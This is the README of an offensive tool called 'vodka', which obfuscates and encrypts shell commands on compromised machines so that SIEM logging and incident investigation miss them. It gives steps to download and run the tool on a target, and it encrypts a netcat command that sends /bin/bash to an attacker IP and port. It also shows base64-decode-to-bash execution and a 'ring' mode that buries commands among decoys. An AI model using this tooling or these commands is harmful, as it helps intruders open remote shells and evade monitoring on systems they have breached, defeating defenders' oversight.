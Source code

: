 
<div align="center">
 <h1> vodka 🧊</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>vodka</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, vodka execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🧊<sub>(hide from)</sub></a>; <a href="#visible-for">👁️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/vodka/releases/latest/download/vodka

## Execute it
./vodka

## You are now under the radar
vodka » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
vodka » [command]
```

Keyword for vodka console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit vodka console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `vodka` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build vodka with encryption key
make build.vodka-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
vodka encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./vodka decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use vodka normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `vodka` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `vodka` launch command line will be catched

### Visible for



* System that have alert for unknown command (vodka one)
* ... To do
